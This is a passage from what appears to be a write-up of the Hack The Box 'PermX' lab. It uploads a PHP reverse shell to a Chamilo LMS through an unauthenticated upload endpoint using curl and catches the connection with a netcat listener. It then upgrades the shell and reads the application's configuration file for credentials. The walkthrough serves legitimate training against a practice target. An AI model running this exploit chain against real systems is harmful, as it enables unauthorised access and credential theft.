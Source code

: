```
		print "$string\n";
	}
}

?> 

```
## I'm saving this as ```php-shell.php``` , bez already shell.php present.
## Let reupload this:
```
curl -F 'bigUploadFile=@php-shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
## Let execute our reverse shell open Netcat in another terminal
```
nc -lnvp 1234
```
## Here is our shell

![image](https://github.com/user-attachments/assets/4605f37b-5fd1-4b03-84a5-969f6a4a9dd1)

## To Execute Shell tap on it
```
death@esther:~/Lab/htb-labs/permx$ nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.11.23 45382
Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 18:50:47 up  4:42,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
## I Got this:
## To stable shell use this:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
### After looking for a while i found Configuration.php file located at 
```
cat /var/www/chamilo/app/config/configuration.php
```
